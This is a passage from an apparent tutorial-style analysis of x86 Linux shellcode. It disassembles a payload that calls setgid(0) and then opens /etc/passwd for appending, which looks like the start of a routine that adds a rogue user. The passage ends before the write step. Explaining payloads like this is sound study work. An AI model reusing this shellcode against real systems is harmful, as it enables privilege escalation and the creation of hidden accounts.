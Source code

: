 We can see that the last instruction is a kernel interrupt instruction, indicating that a syscall is going be made. The syscall number is placed in `eax`. The value is 0x46 which first pushed onto the stack, which is immidietly poped into `eax`. By looking in `/usr/include/i386-linux-gnu/asm/unistd_32.h` we can see which syscall corresponds to `46`.

```asm
00000000  31C9              xor ecx,ecx         ; zero out ecx
00000002  89CB              mov ebx,ecx         ; ebx is now zero
00000004  6A46              push byte +0x46
00000006  58                pop eax             ; setgid() syscall
00000007  CD80              int 0x80            ; execute syscall
```

As we can see below, it's `setgid()`. 

```
#define __NR_prof 44
#define __NR_brk 45
#define __NR_setgid 46
#define __NR_getgid 47
#define __NR_signal 48
```

Running `man 2 setgid` tells us the syntax of the function and its description. The function only has one argument which is set to zero which we can see in the first two instructions.

```
[...]
SYNOPSIS
       #include <sys/types.h>
       #include <unistd.h>

       int setgid(gid_t gid);

DESCRIPTION
       setgid() sets the effective group ID of the calling process.  If the caller is the superuser, the real GID and saved set-group-ID are also set.
[...]
```

The next section has a little more going on, we can see that there are twelve bytes being pushed onto the stack. Decoding `2f6574632f2f706173737764` reveals `/etc//passwd`. The first instruction also pushes `0x5` onto the stack, which is again immediately poped into `eax`. We know from the previous shellcode that this value corresponds to the syscall `open()`. Now it's clear that this section opens the file `/etc/passwd` and returns a file descriptor, as seen in the previous payload.


```asm
00000009  6A05              push byte +0x5
0000000B  58                pop eax                 ; open() syscall
0000000C  31C9              xor ecx,ecx             ; zero out ecx
0000000E  51                push ecx                ; null terminator
0000000F  6873737764        push dword 0x64777373
00000014  682F2F7061        push dword 0x61702f2f
00000019  682F657463        push dword 0x6374652f   ; etc//passwd
0000001E  89E3              mov ebx,esp             ; ebx points to filepath
00000020  41                inc ecx                 ; increment ecx, is now 1
00000021  B504              mov ch,0x4              ; move 0x4 to ecx
00000023  CD80              int 0x80                ; execute syscall
```
